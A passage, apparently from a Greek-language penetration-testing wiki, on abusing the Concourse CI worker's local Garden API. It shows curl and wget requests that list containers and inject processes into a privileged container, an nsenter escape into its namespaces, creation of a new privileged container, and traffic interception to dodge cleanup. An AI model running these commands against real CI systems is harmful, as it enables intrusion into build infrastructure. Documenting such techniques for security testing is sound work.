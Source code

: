 Να σημειωθεί ότι παίζοντας με το concourse παρατήρησα ότι όταν δημιουργείται ένα νέο container για να εκτελέσει κάτι, οι διεργασίες του container είναι προσβάσιμες από τον εργαζόμενο container, οπότε είναι σαν να δημιουργείται ένα νέο container μέσα σε αυτό.

**Εισβολή σε ένα εκτελούμενο προνομιούχο container**

```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'

# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```

**Δημιουργία ενός νέου προνομιούχου container**

Μπορείτε πολύ εύκολα να δημιουργήσετε ένα νέο container (απλά εκτελέστε ένα τυχαίο UID) και να εκτελέσετε κάτι πάνω σε αυτό:

```bash
curl -X POST http://127.0.0.1:7777/containers \
-H 'Content-Type: application/json' \
-d '{"handle":"123ae8fc-47ed-4eab-6b2e-123458880690","rootfs":"raw:///concourse-work-dir/volumes/live/ec172ffd-31b8-419c-4ab6-89504de17196/volume","image":{},"bind_mounts":[{"src_path":"/concourse-work-dir/volumes/live/9f367605-c9f0-405b-7756-9c113eba11f1/volume","dst_path":"/scratch","mode":1}],"properties":{"user":""},"env":["BUILD_ID=28","BUILD_NAME=24","BUILD_TEAM_ID=1","BUILD_TEAM_NAME=main","ATC_EXTERNAL_URL=http://127.0.0.1:8080"],"limits":{"bandwidth_limits":{},"cpu_limits":{},"disk_limits":{},"memory_limits":{},"pid_limits":{}}}'

# Wget will be stucked there as long as the process is being executed
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'
```

Ωστόσο, ο διακομιστής ιστού ελέγχει κάθε λίγα δευτερόλεπτα τα ενεργά δοχεία και αν ανιχνευθεί ένα αναπάντεχο, θα διαγραφεί. Καθώς η επικοινωνία γίνεται μέσω HTTP, μπορείτε να παρεμβάλετε στην επικοινωνία για να αποφύγετε τη διαγραφή αναπάντεχων δοχείων:

```
GET /containers HTTP/1.1.
Host: 127.0.0.1:7777.
User-Agent: Go-http-client/1.1.
Accept-Encoding: gzip.
.

T 127.0.0.1:7777 -> 127.0.0.1:59722 [AP] #157
HTTP/1.1 200 OK.
Content-Type: application/json.
Date: Thu, 17 Mar 2022 22:42:55 GMT.
Content-Length: 131.
.
```